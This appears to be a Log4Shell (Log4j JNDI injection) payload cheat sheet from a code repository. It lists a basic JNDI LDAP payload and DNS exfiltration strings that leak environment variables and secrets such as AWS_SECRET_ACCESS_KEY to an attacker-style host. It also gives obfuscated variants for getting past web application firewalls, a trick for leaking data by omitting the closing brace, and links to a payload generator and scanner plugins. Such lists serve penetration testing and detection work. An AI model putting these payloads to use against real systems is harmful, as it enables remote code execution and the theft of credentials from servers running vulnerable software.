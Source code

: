 ## Basic payload
`${jndi:ldap://example.com/a}`

## DNS Exfil
```
${jndi:ldap://${env:JAVA_VERSION}.example.com/a}
${jndi:ldap://${sys:java.version}.example.com/a}
${jndi:ldap://${hostName}.example.com/a}
${jndi:ldap://${sys:java.vendor}.example.com/a}
${jndi:ldap://${env:user}.example.com/a}
${jndi:ldap://${env:AWS_SECRET_ACCESS_KEY}.example.com}
${jndi:ldap://example.com/a${env:USER}}
${jndi:ldap://${env:SECRET_KEY}.example.com/}
```

## Bypass WAF
```
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://example.com/a}
${${::-j}ndi:rmi://example.com/a}
${jndi:rmi://example.com}
${${lower:jndi}:${lower:rmi}://example.com/a}
${${lower:${lower:jndi}}:${lower:rmi}://example.com/a}
${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://example.com/a}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://example.com/a}
```

## Omitting closing brace can lead to data exfil after "/" sign
`${jndi:ldap://example.com/`

## Payload generator
https://github.com/woodpecker-appstore/log4j-payload-generator

## Burp plugins
### Passive scanner checks
https://github.com/whwlsfb/Log4j2Scan

### Active scan check
https://portswigger.net/bappstore/b011be53649346dd87276bca41ce8e8f
